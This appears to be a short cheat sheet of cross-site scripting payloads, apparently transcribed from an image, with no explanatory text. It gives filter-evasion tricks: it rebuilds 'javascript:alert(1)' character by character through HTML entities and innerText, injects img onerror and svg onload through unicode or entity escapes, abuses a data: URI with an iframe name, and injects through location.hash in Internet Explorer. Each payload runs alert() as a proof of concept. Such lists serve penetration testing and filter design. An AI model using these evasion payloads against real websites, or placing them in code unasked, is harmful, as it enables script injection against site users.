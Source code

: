 ```
elem.innerHTML=amp+htag+106
j=elem.innerText
elem.innerHTML=amp+htag+112
p=elem.innerText
elem.innerHTML=amp+htag+114
r=elem.innerText
elem.innerHTML=amp+htag+115
s=elem.innerText
elem.innerHTML=amp+htag+116
t=elem.innerText
elem.innerHTML=amp+htag+118
v=elem.innerText

elem.innerHTML=amp+htag+58
colon=elem.innerText

elem.innerHTML=amp+htag+40
lpar=elem.innerText
elem.innerHTML=amp+htag+41
rpar=elem.innerText

location=j+a+v+a+s+c+r+i+p+t+colon+alert.name+lpar+1+rpar
```
---

```
document.body.innerHTML="\u003cimg src=x onerror=alert\u002823\u0029\u003e";
```

---

```
document.body.innerHTML="&ltimg src=x onerror=alert&lpar;23&rpar;&gt"
document.body.innerHTML=document.body.innerText
```
---

```
data:text/html,<iframe name="<svg/onload=alert(23)>" src="http://example.com/xss?document.body.innerHTML=name">
```
---

    document.location='javascript:alert%2823%29'

---
仅 IE

    example.com/xss#<img src=x onerror=alert(23)>

    document.body.innerHTML=location.hash;
---

    <svg/onload='alert&#40 23 &#41'>

---